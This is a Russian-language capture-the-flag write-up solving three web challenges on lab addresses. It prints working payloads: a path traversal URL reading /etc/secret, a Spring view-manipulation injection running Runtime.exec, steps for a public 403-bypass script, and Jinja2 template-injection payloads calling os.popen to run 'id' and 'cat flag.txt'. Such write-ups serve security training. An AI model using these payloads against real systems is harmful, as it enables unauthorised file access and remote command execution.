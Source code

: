 web 1

1. Проводим осмотр веб-приложения. И находим ссылку: ![Screenshot_2024-03-21_11_49_29](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/89ffc2c9-6dab-4ca0-b43c-ac2a543a2b67) Перейдя по ней, видим подсказку, что файл с флагом может находиться в директории etc/secret: ![Screenshot_2024-03-21_11_50_45](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/1dcf0c00-b9c7-4a70-8cfc-b424bb8773f1)

2. Чтобы скачать необходимый файл с сервера, воспользуемся уязвимостью "file inclusion". Введем в адресную строку: http://192.168.12.10:5001/download?file_type=/../../../../../../etc/secret. Скачивается нужный файл: ![Screenshot_2024-03-21_11_54_12](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/272ec935-ed57-40d3-9ebd-f3f918f99443)
В нем находится флаг: ![Screenshot_2024-03-21_11_55_59](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/40f75ce4-6e24-4d2c-989d-bb41cd7e3b82)

------------------------------------------------------
web2

Используем Spring view manipulation(https://lohitaksh-nandan.gitbook.io/cheat-sheets/framework/spring/view-manipulation)

Введем команду http://192.168.12.13:8090/login?password=__${new%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22password%22).getInputStream()).next()}__::.x

Перезаходим на http://192.168.12.13:8090/login?password=password и вводим в поле пароля password 
Получаем флаг. Профит




------------------------------------------------------

web3

1. При вводе данных сайт выдает ошибку: "403 Forbidden". Ее можно обойти с помощью скрипта Bypass-403: https://github.com/iamj0ker/bypass-403.

2. Для установки скрипта введем следующие команды в терминале:
	1) git clone https://github.com/iamj0ker/bypass-403
	2) cd bypass-403
	3) chmod +x bypass-403.sh
	
3. Введем команду, в которой укажем наш сайт и путь к файлу flag.txt: ./bypass-403.sh http://192.168.12.11:8001 flag

4. Программа выдает несколько адресов:![Screenshot_2024-03-21_10_14_41](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/5a1e2f9f-79a3-4636-a75c-9ee38b49566e) Выбираем один из адресов с наибольшим временем, например: http://192.168.12.11:8001//flag//, переходим по ссылке и получаем следующий результат:![Screenshot_2024-03-21_10_20_47](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3feedbef-f71d-434b-a1e7-2bfdbbe872b4)
 
5. Теперь посмотрим на исходный код сайта, а именно на файл "app.py". В строке 24 мы видим, что функции передается параметр "name". Функция выдает два результата в зависимости от полученных данных. Если имя не содержит запрещенных символов, то на экран выводится сообщение "привет <имя>", в противном случае: "Содержит запрещенные символы". ![Screenshot_2024-03-21_10_22_30](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2dfe648e-5648-4b61-8774-6593b7193ec3)


6. Попробуем передать функции параметр "name". Напишем в адресной строке браузера: http://192.168.12.11:8001//flag?name=abc. Получаем следующее:![Screenshot_2024-03-21_10_27_39](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/3b0595e7-b42a-4994-ba1a-a94359557a73) Далее вместо "abc" напишем запрещенные символы: "mro". Видим следующее:![Screenshot_2024-03-21_10_31_20](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/f0d634dd-64ec-4aff-892b-1837dfc79207) На первый взгляд кажется, что функция работает корректно.

7. Вполне возможно, что сайт имеет уязвимость. С помощью SSTI (внедрения шаблонов на стороне сервера) попробуем что-нибудь достать с сервера. Введем в адресную строку вместо "mro" "{{2*22}}". На экране выдим рузультат математической операции:![Screenshot_2024-03-21_10_34_42](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/a7f98e6c-1b32-49f9-9d91-906c0030df57)
Сервер не заметил запрещенные символы и выполнил команду. Это и есть уязвимость.

8. Проверим, выведет ли сервер ID файлов, которые хранятся на нем. Откроем документацию на GitHub (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2) и найдем следующий пункт "Exploit the SSTI by calling os.popen().read()". Вместо "{{2*22}}" введем "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}". Получаем:![Screenshot_2024-03-21_10_42_32](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/2b99527f-7580-4f0f-b02b-af9f7116badf) Сервер выдал ID файлов.

9. Если сервер вывел ID файлов, то он может вывести и содержимое файлов. Нам необходимо найти флаг, поэтому введем команду: http://192.168.12.11:8001//flag?name={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()%20}}; и получим флаг: ![Screenshot_2024-03-21_10_45_13](https://github.com/KaaaoooK/KaaaoooK/assets/164244108/909398a7-b9c5-4673-8a77-6948c6060872)
